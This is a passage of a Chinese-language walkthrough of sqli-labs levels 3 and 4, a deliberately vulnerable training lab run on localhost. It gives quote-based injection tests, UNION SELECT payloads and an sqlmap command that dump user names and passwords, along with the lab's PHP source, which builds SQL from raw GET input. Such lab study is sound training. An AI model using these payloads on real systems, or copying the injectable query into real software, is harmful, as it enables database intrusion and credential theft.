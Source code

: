 ### 存在注入点判断

**加上单引号报错,发现存在)**

![2020-1-3-13-24-54-Sqlilabs通关笔记(1-10)](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-3-13-24-54-Sqlilabs%E9%80%9A%E5%85%B3%E7%AC%94%E8%AE%B0(1-10))

    
    ```
    http://localhost/sqlilabs2/Less-3/index.php?id=1') and 1=2 --+ # 报错
    http://localhost/sqlilabs2/Less-3/index.php?id=1') and 1=1 --+ # 正常
    ```
**直接上payload,将数据库脱出**
```
    http://localhost/sqlilabs2/Less-3/index.php?id=-1') union select 1,group_concat(username),group_concat(password) from users --+
```

## 第四关 基于错误的GET双引号字符型注入

### 存在注入点判断
**加上双引号报错,发现存在"**

![2020-1-3-13-46-16-Sqlilabs通关笔记(1-10)](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-3-13-46-16-Sqlilabs%E9%80%9A%E5%85%B3%E7%AC%94%E8%AE%B0(1-10))
    ```
    http://localhost/sqlilabs2/Less-4/index.php?id=1") and 1=2 --+ # 报错
    http://localhost/sqlilabs2/Less-4/index.php?id=1") and 1=1 --+ # 正常
    ```
**直接上payload,将数据库脱出**
```
 http://localhost/sqlilabs2/Less-4/index.php?id=-1") union select 1,group_concat(username),group_concat(password) from users--+
```

### SQLMAP注入
**直接上payload  1-4关皆可以用该命令**

```
sqlmap -u "http://localhost/sqlilabs2/Less-2/index.php?id=1" --batch -D security -T users --columns --dump
```

## 源代码分析
1. 直接贴源码
```php
<?php
//including the Mysql connect parameters.
include("../sql-connections/sql-connect.php");
error_reporting(0);
// take the variables 
if(isset($_GET['id']))
{
$id=$_GET['id'];
//logging the connection parameters to a file for analysis.
$fp=fopen('result.txt','a');
fwrite($fp,'ID:'.$id."\n");
fclose($fp);

// connectivity 


$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);

```